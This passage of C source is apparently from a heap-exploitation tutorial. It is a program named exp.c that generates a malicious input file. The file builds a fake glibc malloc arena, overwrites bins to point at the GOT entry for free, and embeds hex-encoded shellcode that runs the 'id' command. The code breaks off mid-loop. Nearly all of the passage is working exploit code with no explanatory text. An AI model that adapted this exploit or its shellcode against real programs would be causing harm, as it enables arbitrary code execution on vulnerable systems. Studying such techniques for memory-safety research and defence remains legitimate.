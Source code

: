 ``` c
/* exp.c
Program to generate attacker data.
Command:
     #./exp > file
*/
#include <stdio.h>
#define BIN1 0xb7fd8430
char scode[] =
/* Shellcode to execute linux command "id". Size - 72 bytes. */
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";
char ret_str[4] = "\x00\x00\x00\x00";
void convert_endianess(int arg)
{
        int i=0;
        ret_str[3] = (arg & 0xFF000000) >> 24;
        ret_str[2] = (arg & 0x00FF0000) >> 16;
        ret_str[1] = (arg & 0x0000FF00) >> 8;
        ret_str[0] = (arg & 0x000000FF) >> 0;
}
int main() {
        int i=0,j=0;
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* fd_nextsize */
        fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* bk_nextsize */
        /* Fake Arena. */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* mutex */
        fwrite("\x01\x00\x00\x00", 4, 1, stdout); /* flag */
        for(i=0;i<10;i++)
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* fastbinsY */
        fwrite("\xb0\x0e\x10\x08", 4, 1, stdout); /* top */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* last_remainder */
        for(i=0;i<127;i++) {
                convert_endianess(BIN1+(i*8));
                if(i == 119) {
                        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* preserve prev_size */
                        fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* preserve size */
                } else if(i==0) {
                        fwrite("\xe8\x98\x04\x08", 4, 1, stdout); /* bins[i][0] = (GOT(free) - 12) */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
                else {
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][0] */
                        fwrite(ret_str, 4, 1, stdout); /* bins[i][1] */
                }
        }
        for(i=0;i<4;i++) {
                fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* binmap[i] */
        }
        fwrite("\x00\x84\xfd\xb7", 4, 1, stdout); /* next */
        fwrite("\x00\x00\x00\x00", 4, 1, stdout); /* next_free */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* system_mem */
        fwrite("\x00\x60\x0c\x00", 4, 1, stdout); /* max_system_mem */
        for(i=0;i<234;i++) {
                fwrite("\x41\x41\x41\x41", 4, 1, stdout); /* PAD */
        }
        for(i=0;i<722;i++) {
                if(i==721) {
```